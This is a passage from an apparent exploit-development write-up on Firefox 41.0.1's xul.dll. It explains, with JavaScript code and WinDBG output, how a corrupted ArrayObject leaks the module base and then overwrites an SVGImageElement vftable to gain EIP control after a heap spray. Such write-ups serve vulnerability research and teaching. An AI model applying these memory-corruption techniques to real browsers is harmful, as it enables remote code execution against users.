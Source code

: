     xul!js::math_asin:
    697f1386 push    ebp

    0:000> lm m xul
    start    end        module name
    67c30000 6a162000   xul        

Indeed we can verify with WinDBG's lm command that we have leaked the base
of xul.dll correctly. Also we now know the address of our victim
SVGImageElement object. The complete code for this is in file
'svg-leak.html' in the archive.

----[ 5.4 - EIP control

Our corrupted ArrayObject can of course also be used for writing memory. In
order to get EIP control, we can simply overwrite a vftable pointer of the
SVGImageElement object and then call one of its methods. The exact values
we have to add to or subtract from the leaked SVGImageElement object
address depend on the method we are calling (and the version of xul.dll).

    var obj_addr = \
        parseInt(val_hex[0], 16); // our location in memory, see above

    var deref_addr = obj_addr - 0x1f4 + 0x4; // 41.0.1 specific
    var target_eip = "41424344";

    var write_val_bytes = \
        hex_to_bytes(target_eip + deref_addr.toString(16));

    var write_val_double = bytes_to_double(write_val_bytes);
    container[pwned_index][30] = write_val_double;

    log("[*] calling a method of the corrupted SVGImageElement object");

    for(var i = 0; i < spray_size; i += 2)
    {
        container[i].setAttribute("height", "100");
    }

Since we don't know the exact index of SVGImageElement object we have
corrupted, we call a method of all the objects we have sprayed.

After we have overwritten SVGImageElement's vftable, in WinDBG the
situation looks like the following:

    0:000> dd 15b11300 l?80

    [ Corrupted metadata of an ArrayObject ]
              flags    initlen  capacity length
    15b11300  00000000 00000666 00000666 00000666

              [    index 0    ] [   index 1     ]
    15b11310  45464645 ffffff81 47484847 ffffff81

              [    index 2    ] [   index 3     ]
    15b11320  45464645 ffffff81 47484847 ffffff81
    ...
    15b113c0  45464645 ffffff81 47484847 ffffff81
    15b113e0  45464645 ffffff81 47484847 ffffff81
